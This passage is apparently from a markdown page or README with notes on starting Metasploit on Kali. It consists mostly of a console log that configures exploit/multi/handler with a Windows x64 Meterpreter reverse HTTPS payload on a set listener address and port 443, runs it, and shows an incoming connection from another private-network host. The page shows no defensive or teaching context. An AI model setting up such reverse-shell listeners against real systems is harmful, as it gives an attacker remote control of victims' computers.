 
- start metasploit on kali
- metasploit commands
```shell
usemsf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https 
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > set lhost eth0
lhost => 192.168.1.110
msf6 exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.110    yes       The local listener hostname
   LPORT     443              yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.1.110:443
[!] https://192.168.1.110:443 handling request from 192.168.1.135; (UUID: pxlau20q) Without a database connected that payload UUID tracking will not work!
```